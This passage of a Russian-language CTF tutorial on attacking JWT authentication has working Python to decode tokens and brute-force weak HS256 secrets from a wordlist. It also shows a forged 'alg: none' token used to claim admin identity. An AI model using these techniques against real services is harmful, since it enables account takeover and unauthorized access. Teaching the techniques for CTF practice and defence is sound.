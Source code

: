 5. **Недостаточная валидация claims**  
   - Сервер может не проверять поля вроде `exp` (срок действия) или `sub` (идентификатор), что позволяет подменить их значения.  
   - В CTF: изменение `sub` на ID админа часто дает доступ к флагу.

---

### Техники взлома JWT в CTF

Теперь перейдем к практическим методам эксплуатации, которые помогут вам решить задачу с JWT в соревновании.

#### 1. Декодирование и анализ токена
Первый шаг — понять, что внутри. Используйте онлайн-декодеры (например, jwt.io) или Python:
```python
import base64
import json

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjMiLCJyb2xlIjoiZ3Vlc3QifQ.abcd1234"
header, payload, signature = token.split(".")
print(json.loads(base64.urlsafe_b64decode(header + "==")))
print(json.loads(base64.urlsafe_b64decode(payload + "==")))
```
- Проверьте `alg` в заголовке и данные в payload (например, `role`, `sub`).  
- В CTF флаг иногда лежит прямо в payload, например, `{ "flag": "ctf{token_leak}" }`.

#### 2. Атака на слабый секрет (HS256)
Если токен использует HS256, подпись — это HMAC-SHA256 от `header.payload` с секретным ключом. Попробуйте угадать ключ:
- Источники: исходный код, `.env`, `/config`, стандартные строки вроде `secret` или `123456`.  
- Инструмент: `jwt-cracker` или скрипт:
```python
import hmac
import hashlib

def check_jwt(secret, token):
    header, payload, signature = token.split(".")
    expected = base64.urlsafe_b64encode(
        hmac.new(secret.encode(), f"{header}.{payload}".encode(), hashlib.sha256).digest()
    ).decode().rstrip("=")
    return expected == signature

token = "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.abcd1234"
with open("wordlist.txt", "r") as f:
    for secret in f:
        if check_jwt(secret.strip(), token):
            print(f"Found secret: {secret}")
            break
```
- В CTF: создайте новый токен с `role: "admin"` и этим ключом.

#### 3. Использование "none" алгоритма
Поменяйте `alg` на `none` и удалите подпись:
- Оригинал: `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.abcd1234`  
- Новый: `eyJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9.`  
- В CTF: отправьте токен серверу. Если он принимает, вы в деле.
